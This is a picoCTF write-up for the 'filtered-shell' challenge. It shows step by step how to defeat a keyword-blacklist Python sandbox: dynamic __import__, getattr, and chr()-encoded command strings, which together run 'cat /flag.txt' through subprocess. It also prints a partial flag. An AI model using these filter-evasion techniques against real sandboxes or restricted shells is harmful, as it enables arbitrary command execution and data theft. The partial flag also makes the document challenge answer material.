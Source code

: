 # 🧠 Filter Bypass in Python Sandbox (picoCTF: filtered-shell)

**Author:** picoCTF Team  
**Category:** Reverse Engineering / Python  
**Difficulty:** 🟠 Medium  
**Tags:** `Python`, `Filter Bypass`, `Subprocess`, `Restricted Execution`, `picoCTF`

---

## 📘 Description

> You're given access to a restricted Python shell with filters on keywords, functions, and arguments. Can you still run commands to read the flag?

---

## 🚀 Challenge Deployment

- 🌐 URL: [picoCTF: filtered-shell](https://play.picoctf.org/practice/challenge/484?category=1&difficulty=2&page=1)  
- 🎯 Goal: Execute OS command despite blacklists on `import`, `os`, `subprocess`, and command strings

---

## 🔥 Vulnerability: Insecure Sandbox Filter

The server evaluates Python input but uses naïve blacklist filtering:
- Direct keywords like `import`, `os`, `cat`, `/flag.txt` are **blocked**
- Function calls and even arguments are inspected

This opens the door for **obfuscated function chaining and dynamic imports**.

---

## 💣 Exploitation Steps

### Step 1: Bypass `import` using `__import__`

```python
m = __import__('sub' + 'process')
```
✅ This dynamically loads the subprocess module without triggering filters.

### Step 2: Access function without calling it directly
```python

func = getattr(m, 'check_output')
```
✅ Avoids detection of check_output() call.

### Step 3: Obfuscate the command using chr()
```python

cmd = chr(99)+chr(97)+chr(116)  # 'cat'
arg = chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)  # '/flag.txt'
```
✅ Hides "cat" and "/flag.txt" from the filter.

### Step 4: Execute the payload
```python
func([cmd, arg])
```
📥 Output:

```
picoCTF{sst1_f1lt3r...}
```

| Property        | Impact                                        |
| --------------- | --------------------------------------------- |
| Confidentiality | 🔴 Full flag disclosure (sensitive data leak) |
| Integrity       | 🔴 Arbitrary command execution possible       |
| Availability    | 🟡 Could lead to abuse or resource exhaustion |

